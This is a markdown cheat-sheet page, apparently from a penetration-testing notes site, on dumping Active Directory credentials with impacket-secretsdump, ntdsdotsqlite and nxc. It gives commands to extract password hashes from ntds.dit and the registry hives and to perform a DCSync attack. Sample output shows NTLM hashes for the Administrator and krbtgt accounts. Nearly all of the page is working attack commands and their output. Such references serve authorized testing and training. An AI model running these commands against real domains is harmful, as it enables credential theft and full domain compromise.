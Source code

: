 ```yaml
---
title: "secretsdump"
date: 2024-7-2
tags: ["Sam", "Dcsync", "Impacket", "Domain Controller", "Credential Dumping", "Active Directory", "Windows", "Ntds.Dit", "Hive", "Nxc"]
---
```


### Convert ntds.dit to .sqlite

```console
ntdsdotsqlite ntds.dit --system SYSTEM -o ntds.sqlite
```

<small>*Ref: [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)*</small>

### With ntds.dit and SYSTEM hive

{{< tab set1 tab1 active >}}impacket{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

```console {class="sample-code"}
$ impacket-secretsdump -ntds ntds.dit -system system LOCAL
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
...[SNIP]...
[*] Cleaning up...
```

{{< /tabcontent >}}

### With SAM, SYSTEM and SECURITY Hives

{{< tab set2 tab1 active >}}impacket{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

{{< /tabcontent >}}

### With Dcsync right

{{< tab set3 tab1 active >}}impacket{{< /tab >}}
{{< tab set3 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
nxc smb -dc-ip <DC> -u <USER> -H <HASH> --ntds
```

{{< /tabcontent >}}
